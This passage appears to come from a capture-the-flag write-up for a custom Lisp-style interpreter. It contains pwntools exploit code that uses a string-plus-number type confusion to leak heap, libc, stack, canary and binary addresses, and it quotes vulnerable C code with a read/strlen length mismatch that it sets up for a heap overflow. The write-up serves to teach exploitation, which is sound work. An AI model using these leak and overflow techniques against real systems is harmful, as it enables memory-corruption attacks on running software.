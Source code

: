 ```python
io.sendlineafter(b"<<< ", b'(+ 0 "AABB")')
heap_leak = int(io.recvline())
info(f"heap_leak: {hex(heap_leak)}")
```

Another another way to get an arbitrary leak is to add a string to a number. The number will be treated as a string allowing us to leak whatever we want in the memory space.
```python
# Do a bunch of random allocations so there are libc addresses on the heap.
for i in range(20):
    payload = f'"{"C" * 200}" '
    payload = f'(+ {payload * 3} "A")'
    io.sendlineafter(b"<<< ", payload.encode())

# This is done so the string sizes are overwritten for leaking after this.
# Because we're using malloc to allocate memory for the nodes and the memory
# isn't cleared, we're inheriting them from the previous ones.
io.sendlineafter(b"<<< ", f'(+ "@@@@@@@@" "@@@@@@@@" "@@@@@@@@")'.encode())

# Get all the leaks.
io.sendlineafter(b"<<< ", f'(+ "@" {heap_leak+3416})'.encode())
io.recv(1)
libc_leak = u64(io.recv(6).ljust(8, b"\x00"))
info(f"libc_leak: {hex(libc_leak)}")
libc.address = libc_leak - 2206944

io.sendlineafter(b"<<< ", f'(+ "@" {libc.sym["__environ"]})'.encode())
io.recv(1)
stack_leak = u64(io.recv(6).ljust(8, b"\x00"))
info(f"stack_leak: {hex(stack_leak)}")

io.sendlineafter(b"<<< ", f'(+ "@" {stack_leak-144+1})'.encode())
io.recv(1)
stack_canary = u64(io.recv(7).rjust(8, b"\x00"))
info(f"stack_canary: {hex(stack_canary)}")

io.sendlineafter(b"<<< ", f'(+ "@" {stack_leak-112})'.encode())
io.recv(1)
bin_leak = u64(io.recv(6).ljust(8, b"\x00"))
info(f"bin_leak: {hex(bin_leak)}")
exe.address=bin_leak-19776

io.sendlineafter(b"<<< ", f'(+ "@" {heap_leak+7208})'.encode())
io.recv(1)
heap_key = u64(io.recv(8).ljust(8, b"\x00"))
info(f"heap_key: {hex(heap_key)}")
```

Now, after we get our leaks we can think of a strategy for our buffer overflow.
We are getting the input with a `read` function, thanks to this we can have NULL bytes in our input string.
Later in the `add_token` function we're mixing up the size returned by calling `read` with length returned by `strlen`.
The function `strlen` stops when it encounters a NULL byte so we can abuse this to confuse the size inside of `calloc` to return a smaller allocation than it should.
```c
void add_token(const char *token_str, size_t token_len, Token **beg, Token **end) {
  Token *new_token = calloc(1, sizeof (Token));
  if (new_token == NULL) {
    fprintf(stderr, "I just don't know what went wrong...\n");
    exit(-1);
  }
  new_token->next = NULL;
  new_token->str = calloc(1, strlen(token_str) + 1);
```